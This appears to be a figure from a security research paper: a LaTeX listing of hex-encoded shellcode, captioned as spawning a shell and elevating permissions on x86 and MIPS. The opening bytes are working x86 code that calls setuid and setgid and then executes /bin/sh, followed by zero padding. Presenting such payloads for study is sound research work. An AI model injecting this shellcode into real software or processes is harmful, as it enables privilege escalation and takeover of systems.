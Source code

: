 \documentclass[12pt,]{book}
\begin{document}
\begin{lstlisting}[basicstyle=\scriptsize, ,
caption=An example of a shellcode PIP for X86 and MIPS which attempts to spawn a shell and elevate permissions.  Shellcode for each architecture was taken from [@Imrigan][@TheWorm:vp].]
eb020008 00000000 6a175831 dbcd80b0 80b02ecd 806a0b58 9952682f 2f736868
2f62696e 89e35253 89e1cd80 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000

\end{lstlisting}
\end{document}

